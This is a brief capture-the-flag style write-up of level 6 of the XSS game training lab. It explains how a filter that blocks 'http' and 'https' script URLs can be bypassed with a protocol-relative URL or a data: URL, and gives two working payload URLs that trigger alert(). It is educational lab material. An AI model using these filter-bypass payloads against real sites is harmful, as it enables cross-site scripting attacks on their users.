


# Level 6: Follow the 🐇

URL: [https://xss-game.appspot.com/level6](https://xss-game.appspot.com/level6)



## Mission Objective

Find a way to make the application request an external file which will cause it to execute an `alert()`.

## Analysis

This lab objective is straightforward forward we have to load an external javascript file to execute an `alert()` function. The page adds a script tag with the `src` attribute pointing to the URL fragment’s value. If you take a look at the page source code you will find a `setInnerText()` function that prevents the loading of the script file if the URL starts with `http` or `https`.

## Conclusion

Even if the application blocks URLs starting with `http` or `https`. It can be bypassed by a [Protocol-relative URL](https://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL) or with [data:URL scheme](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data).

```bash
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

```bash
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert(document.domain)
```


